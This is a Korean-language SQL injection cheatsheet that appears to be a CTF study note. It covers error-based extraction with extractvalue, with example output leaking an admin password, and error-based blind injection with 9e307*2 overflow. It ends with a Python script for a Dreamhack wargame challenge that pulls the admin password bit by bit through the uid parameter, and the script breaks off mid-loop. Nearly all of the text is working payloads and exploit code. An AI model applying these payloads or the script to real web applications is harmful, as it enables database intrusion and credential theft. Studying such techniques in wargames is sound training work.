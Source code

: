### SQL Injection
- Blind
> https://ansar0047.medium.com/blind-sql-injection-detection-and-exploitation-cheatsheet-17995a98fed1 참고
- Error based
```sql
SELECT extractvalue(1,concat(0x3a,version()));
/*
ERROR 1105 (HY000): XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'
*/

mysql> SELECT extractvalue(1,concat(0x3a,(SELECT password FROM users WHERE username='admin')));
/*
ERROR 1105 (HY000): XPATH syntax error: ':Th1s_1s_admin_PASSW@rd'
*/
```
- Error based blind
```sql
mysql> select if(1=1, 9e307*2,0);
ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)'
mysql> select if(1=0, 9e307*2,0);
+--------------------+
| if(1=0, 9e307*2,0) |
+--------------------+
|                  0 |
+--------------------+
1 row in set (0.00 sec)
```
[dreamhack prob:](https://dreamhack.io/wargame/challenges/411)
> 한글 섞인 Error based blind injection
```py
import requests

URL = "http://host3.dreamhack.games"
PORT = "14174"
FULL_URL = URL + ":" + PORT + "/"

FAILED = "SELECT * FROM"
SUCESS = "Server Error"

flag = ''

if __name__ == "__main__":
    exp = "char_length(upw) = 13"
    query = f"' or 1=1  and uid='admin' and  if({exp}, 9e307*2, 0)-- x"
    data = requests.get(FULL_URL + "?uid=" + query)

    FLAG_LENGTH = 13
    for i in range(1, FLAG_LENGTH+1):
        bit_length = 1
        while True:
            exp = f"length(bin(ord(substr(upw, {i}, 1)))) = {bit_length}"
            query = "' or 1=1  and uid='admin' and  if("+exp+", 9e307*2, 0)-- x"
            data = requests.get(FULL_URL + "?uid=" + query)

            if SUCESS in data.text:
                break
            else:
                bit_length += 1
        print(f"bit_length: {bit_length}")
        tmp = ''
        for j in range(1, bit_length+1):
            exp = f"substr(bin(ord(substr(upw, {i}, 1))), {j}, 1) = 1"
            query = "' or 1=1  and uid='admin' and  if("+exp+", 9e307*2, 0)-- x"
```
